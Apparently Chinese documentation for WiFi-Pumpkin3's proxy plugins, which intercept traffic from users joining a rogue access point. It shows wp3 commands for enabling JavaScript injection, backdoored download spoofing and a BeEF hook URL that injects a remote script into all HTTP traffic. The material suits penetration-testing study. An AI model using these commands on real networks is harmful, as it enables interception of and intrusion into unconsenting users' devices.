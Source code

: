 # 代理

代理被设计用于向`WP3`核心添加特性并与接入点\(`AP`\)一起运行，通过`iptables`重定向所有流量。代理将在工作时拦截请求、必要时修改请求、处理请求或转发请求到原目的地。当一个用户连接到AP，透明代理将在请求传递给提供者之前拦截请求。

> 注意
>
> 因为设计上代理将操作所有数据包，重定向特定端口的所有数据，你每次只能运行一个代理。

可用的代理：

* pumpkinproxy - 拦截TCP协议流量的代理 [doc](https://wifipumpkin3.github.io/docs/getting-started#pumpkinproxy)
* captiveflask - 可用阻止没有在登陆页登陆的用户访问互联网  [doc](https://wifipumpkin3.github.io/docs/getting-started#captiveflask)
* noproxy - 代理不进行流量重定向

使用代理的基本命令：

如果你想选择一个代理，使用如下命令：

```text
wp3 > set proxy proxy_name
```

如果代理有子插件，当使用代理时你将看到一些可设置的子选项。你可以使用命令启用/禁用子插件，使用`TAB`来自动填充

```text
wp3 > set proxy_name.plugin_name true/false
```

以上的示例用于启用/禁用插件，你也可使用相同的规则sintax去配置插件参数。可以通过输入`info proxy_name`或仿照下面例子中的类型，使用`TAB`自动补全来获取参数

```text
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

让我们现在设置插件`beef`的`url_hook` 参数在所有http请求中注入javascript

```text
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

欢迎代理开发者和用户将代理加入到这个项目中，点击查看开发参考   [how to create a proxy](https://wifipumpkin3.github.io/docs/getting-started#development)

